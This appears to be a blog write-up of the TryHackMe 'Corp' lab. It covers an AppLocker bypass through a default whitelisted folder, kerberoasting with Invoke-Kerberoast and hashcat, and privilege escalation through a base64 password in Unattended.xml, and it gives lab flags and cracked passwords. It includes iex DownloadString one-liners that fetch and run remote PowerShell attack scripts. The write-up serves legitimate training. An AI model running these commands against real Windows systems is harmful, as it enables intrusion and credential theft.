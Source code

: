 ```yaml
---
layout: post
title: THM — Corp
date: 2022-12-14 00:00:00 -500
categories: [TryHackMe]
tags: [Windows, Forensic]
---
```


<img src="/assets/images/THM/Corp/logo.png" width="20%">

***

<center><strong><font color="White">Bypass Windows Applocker and escalate your privileges. You will learn about kerberoasting, evading AV, bypassing applocker and escalating your privileges on a Windows system.</font></strong></center>

***

## <strong><font color="#34A5DA">Introduction</font></strong>

In this room you will learn the following:
* Windows Forensics
* Basics of kerberoasting
* AV Evading
* Applocker

***

## <strong><font color="#34A5DA">Bypassing Applocker</font></strong>

<img src="/assets/images/THM/Corp/1.png" width="70%">

AppLocker is an application whitelisting technology introduced with Windows 7. It allows restricting which programs users can execute based on the programs path, publisher and hash.

You will have noticed with the deployed machine, you are unable to execute your own binaries and certain functions on the system will be restricted.

There are many ways to bypass AppLocker.

If AppLocker is configured with default AppLocker rules, we can bypass it by placing our executable in the following directory: `C:\Windows\System32\spool\drivers\color` - This is whitelisted by default. 

Go ahead and use Powershell to download an executable of your choice locally, place it the whitelisted directory and execute it.

Just like Linux bash, Windows powershell saves all previous commands into a file called ConsoleHost_history. This is located at `%userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt`

***

> Access the file and and obtain the flag. `flag{a12a41b5f8111327690f836e9b302f0b}`

***

## <strong><font color="#34A5DA">Kerberoasting</font></strong>

<img src="/assets/images/THM/Corp/2.png" width="60%">

It is important you understand how Kerberous actually works in order to know how to exploit it. Watch the video below.

<iframe width="560" height="315" src="https://www.youtube.com/embed/LmbP-XD1SC8" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>

Kerberos is the authentication system for Windows and Active Directory networks. There are many attacks against Kerberos, in this room we will use a Powershell script to request a service ticket for an account and acquire a ticket hash. We can then crack this hash to get access to another user account!

Lets first enumerate Windows. If we run `setspn -T medin -Q ​ */*` we can extract all accounts in the SPN.

SPN is the Service Principal Name, and is the mapping between service and account.

> Running that command, we find an existing SPN. What user is that for? `fela`

Now we have seen there is an SPN for a user, we can use Invoke-Kerberoast and get a ticket.

Lets first get the Powershell Invoke-Kerberoast script.

```powershell
iex​(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1') 
```

Now lets load this into memory: `Invoke-Kerberoast -OutputFormat hashcat ​ |fl`

You should get a SPN ticket.

<img src="/assets/images/THM/Corp/3.png" width="80%">


Lets use hashcat to bruteforce this password. The type of hash we're cracking is Kerberos 5 TGS-REP etype 23 and the hashcat code for this is 13100.

```shell
hashcat -m 13100 -​a 0 hash.txt wordlist --force
```

> Crack the hash. What is the users password in plain text? `rubenF124`
> Login as this user. What is his flag? `flag{bde1642535aa396d2439d86fe54a36e4}`

***

## <strong><font color="#34A5DA">Privilege Escalation</font></strong>

We will use a PowerShell enumeration script to examine the Windows machine. We can then determine the best way to get Administrator access.


We will run PowerUp.ps1 for the enumeration.

Lets load PowerUp1.ps1 into memory.

```powershell
iex​(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1') 
```

The script has identified several ways to get Administrator access. The first being to bypassUAC and the second is UnattendedPath. We will be exploiting the UnattendPath way.

"Unattended Setup is the method by which original equipment manufacturers (OEMs), corporations, and other users install Windows NT in unattended mode." Read more about it [here](https://support.microsoft.com/en-us/topic/77504e1d-2b75-5be1-3eef-cec3617cc461).

It is also where users passwords are stored in base64. Navigate to `C:\Windows\Panther\Unattend\Unattended.xml`.

<img src="/assets/images/THM/Corp/4.png" width="80%">

> What is the decoded password? `tqjJpEX9Qv8ybKI3yHcc=L!5e(!wW;$T`
> Now we have the Administrator's password, login as them and obtain the last flag. `THM{g00d_j0b_SYS4DM1n_M4s73R}`